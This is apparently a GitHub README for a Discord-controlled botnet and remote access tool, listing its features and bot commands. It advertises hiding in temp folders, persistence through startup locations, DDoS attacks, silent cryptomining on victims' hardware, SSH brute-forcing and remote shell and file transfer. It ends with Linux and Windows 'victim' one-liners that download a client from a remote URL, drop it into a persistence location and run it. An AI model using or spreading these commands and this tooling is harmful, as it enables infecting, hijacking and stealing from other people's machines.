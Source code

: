 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* !webcampic
* !revshell < IP > < PORT >
* !nmap
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !update                                (Update RAT)

* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)

* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses by: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap subnet scan)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
